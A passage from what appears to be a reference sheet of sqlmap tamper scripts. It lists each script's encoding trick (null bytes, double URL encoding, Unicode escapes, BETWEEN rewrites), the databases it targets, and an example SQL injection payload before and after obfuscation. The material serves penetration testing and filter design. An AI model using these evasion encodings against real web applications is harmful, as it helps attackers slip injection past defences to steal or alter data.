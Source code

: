 example
~~~
1 AND ‘1’=’1 ==> 1 AND %EF%BC%871%EF%BC%87=%EF%BC%871
~~~
### apostrophenullencode.py
Function: ‘ ==> %00%27
Platform: All
example
~~~
1 AND ‘1’=’1 ==> 1 AND %00%271%00%27=%00%271
~~~
### appendnullbyte.py
Function: Space ==> %00
Platform: Microsoft Access
example
~~~
1 AND 1=1 ==> 1 AND 1=1%00
~~~
base64encode.py
Function: base64 encode
Platform: All
example
~~~
1' AND SLEEP(5)# ==> MScgQU5EIFNMRUVQKDUpIw==
~~~
### between.py
Function: > ==> NOT BETWEEN 0 AND
Platform: Mssql2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
1 AND A > B — ==> 1 AND A NOT BETWEEN 0 AND B — ```、```1 AND A = B — ==> 1 AND A BETWEEN B AND B —
~~~
### bluecoat.py
Function: Space ==> %09
Platform: MySQL 5.1, SGOS
example
~~~
SELECT id FROM users WHERE id = 1 ==> SELECT%09id FROM%09users WHERE%09id LIKE 1
~~~
### chardoubleencode.py
Function: Double url encoding
Platform: All
example
~~~
SELECT FIELD FROM%20TABLE ==> %2553%2545%254C%2545%2543%2554%2520%2546%2549%2545%254C%2544%2520%2546%2552%254F%254D%2520%2554%2541%2542%254C%2545
~~~
### charencode.py
Function: url encoding
Platform: Mssql 2005、MySQL 4, 5.0 and 5.5、Oracle 10g、PostgreSQL 8.3, 8.4, 9.0
example
~~~
SELECT FIELD FROM%20TABLE ==> %53%45%4C%45%43%54%20%46%49%45%4C%44%20%46%52%4F%4D%20%54%41%42%4C%45
~~~
### charunicodeencode.py
Function: escape code
Platform: Mssql 2000,2005、MySQL 5.1.56、PostgreSQL 9.0.3 ASP/ASP.NET
example
~~~
SELECT FIELD%20FROM TABLE ==> %u0053%u0045%u004C%u0045%u0043%u0054%u0020%u0046%u0049%u0045%u004C%u0044%u0020%u0046%u0052%u004F%u004D%u0020%u0054%u0041%u0042%u004C%u0045
~~~